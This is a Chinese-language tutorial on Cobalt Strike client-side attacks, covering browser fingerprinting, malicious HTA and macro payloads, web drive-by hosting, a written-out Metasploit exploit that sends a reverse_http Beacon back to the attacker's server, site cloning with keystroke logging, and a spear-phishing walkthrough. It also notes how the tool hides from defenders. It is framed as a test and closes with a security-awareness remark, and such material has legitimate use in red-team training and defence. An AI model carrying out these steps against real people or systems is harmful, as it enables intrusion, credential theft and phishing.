










# Cobalt Strike — 0x03 目标攻击

## 0x03 目标攻击

## 1、客户端攻击

**什么是客户端攻击**

客户端攻击根据教程直译过来就是一种依靠应用程序使用控制端来进行的可视化攻击。

`原文：A client-side attack is an attack against an application used to view attacker controlled content.`

**为什么要进行客户端攻击**

随着时代发展到了今天，在有各种WAF、防火墙的情况下，各种漏洞已经很难像过去那么好被利用了，攻击者想绕过防火墙发动攻击也不是那么容易的了。

而当我们发送一个钓鱼文件到客户端上，再由客户端打开这个文件，最后客户端穿过防火墙回连到我们，此时在客户端上我们就获得了一个立足点`foothold`。这样的一个过程是相对而言是较为容易的，这也是为什么要进行客户端攻击。

**如何获得客户端上的立足点**

1、尽可能多的了解目标环境，即做好信息收集工作

2、创建一个虚拟机，使它与目标环境尽可能的一致，比如操作系统、使用的浏览器版本等等都需要保证严格一致

3、攻击刚刚创建的虚拟机，这会是最好的攻击目标

4、精心策划攻击方法，达到使目标认为这些攻击行为都是正常行为的效果

5、将精心制作的钓鱼文件发送给目标，比如钓鱼邮件

如果这五步都非常细致精心的去准备，那么攻击成功的概率会大幅提升。

## 2、系统侦察

系统侦察`System Profiler`是一个方便客户端攻击的侦察工具，这个工具将会在CS服务端上启动一个Web服务，这样当目标访问这个Web服务的时候，我们就能够看到目标使用的浏览器、操作系统等等指纹信息。

设置系统侦察需要首先在自己的VPS服务器上运行CS服务端，之后本地客户端进行连接，选择`System Profiler`功能模块，配置待跳转的URL等信息即可。

如果勾选了`Use Java Applet to get information`则可以发现目标的Java版本及内网IP地址，但是这样做被发现的风险就会提高，同时现在浏览器已经默认关闭了java执行权限，因此这个选项的作用也变得不大了。



配置完后，当用户打开配置后的链接，我们可以在三个地方进行观察

```plain
1、View --> Applications
2、View --> Web Log
3、Cobalt Strike --> Visualization --> Target Table
```

目标用户打开链接时，我们在CS上就能够看到目标使用的浏览器版本、系统版本等信息了，知道了版本信息，就能够进一步知道目标上可能存在什么漏洞。



值得注意的一点是如果 Cobalt Strike 的 web 服务器收到了lynx、wget 或 curl 的请求，CS会自动返回一个 404 页面，这样做是为了防御蓝队的窥探。

## 3、Cobalt Strike 的攻击方式

**用户驱动攻击**

用户驱动攻击`User-Driven Attacks`需要欺骗用户产生交互才行，但也有许多的优点。

首先用户驱动攻击不包含恶意攻击代码，所以用户系统上的安全补丁是没用的；其次无论目标使用什么版本的程序，我们都可以创建相应的功能来执行；最后因为用户驱动攻击十分可靠，也使得它很完美。

当我们采取行动来追踪并需要攻击时，它就像用户本地执行程序一样，CS为我们提供了几个用户驱动攻击的选项，分别如下：

### 用户驱动攻击包

用户驱动攻击包`User-Driven Attacks Packages`功能打开位置：`Attacks --> Packages`

**1、HTML应用**

HTML应用`HTML Application`生成(executable/VBA/powershell)这3种原理不同的VBScript实现的`evil.hta`文件。

**2、Microsoft Office 宏文件**

Microsoft Office 宏文件`Microsoft Office Document Macros`可以生成恶意宏放入office文件，非常经典的攻击手法。

**3、Payload 生成器**

Payload生成器`Payload Generator`可以生成各种语言版本的Payload，便于进行免杀。

**4、Windows 可执行文件**

Windows 可执行文件`Windows Executable` 会生成一个Windows可执行文件或DLL文件。默认x86，勾选x64表示包含x64 payload stage生成了artifactX64.exe(17kb) artifactX64.dll(17kb)

**5、Windows 可执行文件（Stageless）**

Windows 可执行文件（Stageless）`Windows Executable (Stageless)`会生成一个无进程的Windows可执行文件或DLL文件。其中的 Stageless 表示把包含payload在内的"全功能"被控端都放入生成的可执行文件beconX64.exe(313kb) beconX64.dll(313kb) becon.ps1(351kb)

### 用户驱动的Web交付攻击

用户驱动Web交付攻击`User-Driven Web Drive-by Attacks`功能打开位置：`Attacks --> Web Drive-by`

**1、java 签名 applet 攻击**

java 签名 applet 攻击`Java Signed Applet Attack`会启动一个Web服务以提供自签名Java Applet的运行环境，浏览器会要求用户授予applet运行权限，如果用户同意则实现控制，但目前该攻击方法已过时。

**2、Java 智能 Applet 攻击**

Java 智能 Applet 攻击`Java Smart Applet Attack`会自动检测Java版本并利用已知的漏洞绕过安全沙箱，但CS官方称该攻击的实现已过时，在现在的环境中无效。

**3、脚本化 Web 交付**

脚本化 Web 交付`Scripted Web Delivery` 为payload提供web服务以便于下载和执行，类似于MSF的Script Web Delivery

**4、托管文件**

托管文件`Host File`通过`Attacks --> Web Drive-by --> Host File`进行配置，攻击者可以通过这个功能将文件上传到CS服务端上，从而进行文件托管。

如果想删除上传到CS服务端上的文件，可以到`Attacks --> Web Drive-by --> Manage`下进行删除。

如果想查看谁访问了这些文件，可以到`View --> Web Log`下进行查看。

## 4、开始攻击

### HTML 应用攻击

首先来到`Attacks --> Packages --> HTML Application`创建一个HTML应用，如果没有创建监听的话，还需要创建一个监听。



HTML应用文件生成好后，来到`Attacks --> Web Drive-by --> Host File`，选择刚才生成的文件，最后点击Launch，复制CS创建的链接，在目标主机上打开此链接。



当在目标主机上提示是否运行时，点击运行。



当该文件在目标上运行后，CS客户端上就可以看到回连的会话了。



### MSF 与 CS 的结合利用

如果想使用MSF对目标进行漏洞利用，再通过这个漏洞来传输Beacon的话，也是可以的。

1、首先在MSF上选择攻击模块

2、接着在MSF上设置Payload为`windows/meterpreter/reverse_http`或者`windows/meterpreter/reverse_https`，这么做是因为CS的Beacon与MSF的分阶段协议是相兼容的。

3、之后在MSF中设置Payload的LHOST、LPORT为CS中Beacon的监听器IP及端口。

4、然后设置 `DisablePayloadHandler` 为 True，此选项会让 MSF 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉MSF说我们已经建立了监听器，不必再新建监听器了。

5、再设置 `PrependMigrate` 为 True，此选项让 MSF 前置 shellcode 在另一个进程中运行 payload stager。如果被利用的应用程序崩溃或被用户关闭，这会帮助 Beacon 会话存活。

6、最后运行`exploit -j`，-j 是指作为job开始运行，即在后台运行。

**操作**

在CS中新建一个HTTP Beacon，创建过程不再赘述。

1、在MSF中选择攻击模块，根据教程这里选择的`adobe_flash_hacking_team_uaf`模块，不过个人感觉现在这个模块已经不太能被利用成功了。

```plain
use exploit/multi/browser/adobe_flash_hacking_team_uaf
```

2、接着配置payload，这里选择revese\_http payload

```plain
set payload windows/meterpreter/revese_http
set LHOST cs_server_ip
set LPORT 80
```

3、之后，配置`DisablePayloadHandler`、`PrependMigrate`为 True

```plain
set DisablePayloadHandler True
set PrependMigrate True
```

4、最后，开始攻击。

```plain
exploit -j
```



### 伪装—克隆网站

在向目标发送漏洞程序之前，我们将自己进行伪装一下，这样可以更好的保护自己，同时提高成功率。CS上有个克隆网站的功能，能够较好的帮助到我们。

首先，来到`Attacks --> Web Drive-by --> Clone Site`下，打开克隆网站的功能，之后写入待克隆网站的URL，在Attack中写入MSF中生成的URL。

其中`Log keystrokes on cloned site`选项如果勾选则可以获取目标的键盘记录，记录结果在Web Log中能够查看。



之后，浏览器打开克隆站点地址，如果目标存在漏洞，就可以被利用了，同时在CS中也会观察到主机上线。

## 5、鱼叉式网络钓鱼

用CS进行钓鱼需要四个步骤：

1、创建一个目标清单

2、制作一个邮件模板或者使用之前制作好的模板

3、选择一个用来发送邮件的邮件服务器

4、发送邮件

**目标清单**

目标清单就是每行一个邮件地址的txt文件，即每行包含一个目标。

在一行中除了邮件地址也可以使用标签或一个名字。如果提供了名称，则有助于 Cobalt Strike 自定义每个网络钓鱼。

这里使用一些在线邮件接收平台的邮箱地址作为示例。

```plain
astrqb79501@chacuo.net	test1
gswtdm26180@chacuo.net	test2
ypmgin95416@chacuo.net	test3
```

将以上内容保存为txt文本文件，就创建好了自己的目标清单。

**模板**

使用模板的好处在于可以重复利用，制作钓鱼模板也很简单。

首先可以自己写一封邮件发给自己，或者直接从自己收件箱挑选一个合适的。有了合适的邮件之后，查看邮件原始信息，一般在邮件的选项里能找到这个功能。最后将邮件的原始信息保存为文件，一个模板就制作完成了。

**发送邮件**

有了目标和模板，然后选好自己的邮件服务器，之后就可以发送消息了。

在CS客户端中，点击`Attacks --> Spear Phish`即可打开网络钓鱼模块。添加上目标、模板、钓鱼地址、邮箱服务、退回邮箱，其中Bounce To为退回邮件接收地址，注意要和配置邮件服务器时填的邮箱一致，否则会报错。



所有信息添加完成后，可以点击Preview查看。如果感觉效果不错，就可以点击send发送了。

当目标收到钓鱼邮件，并且点击钓鱼邮件中的链接后，如果钓鱼链接配置的没有问题，CS就能够上线了。



由于此处是仅作为测试用途，所以模板中的链接都是自己的本地内网CS服务器地址，如果是真实环境中，则自然需要使用公网的地址才行。

在真实环境中的钓鱼邮件也不会像这里这么浮夸，真实环境中的钓鱼邮件往往都伪装成和正经儿的邮件一模一样，单从表面上看很难看出区别，因此提高自己的安全意识还是很重要滴。
